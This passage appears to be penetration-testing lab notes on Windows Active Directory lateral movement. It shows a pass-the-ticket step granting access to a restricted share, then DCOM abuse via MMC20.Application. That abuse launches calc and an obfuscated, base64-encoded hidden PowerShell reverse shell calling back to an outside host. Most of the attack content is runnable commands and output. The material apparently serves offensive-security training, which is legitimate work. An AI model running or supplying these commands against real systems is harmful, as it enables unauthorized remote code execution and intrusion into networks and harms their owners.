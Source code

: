 We see that the `dave` ticket has been successfully imported in our own session for the `jen` user. We can now confirm that we have been granted access to an origianlly restricted shared folder

```
PS C:\Tools> ls \\web04\backup


    Directory: \\web04\backup


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```

### DCOM

Interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API.

This method allows execution of any shell command as long as the authenticated user is authorized, which is default for local administrators.

We first instantiate a remote MMC 2.0 application

```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```

The application object is now saved into the `$dcom` variable, for which we can pass arguments to

```
# Execute calc
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

# Pop a shell (courtesy of ps_cradle_gen.sh)
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```
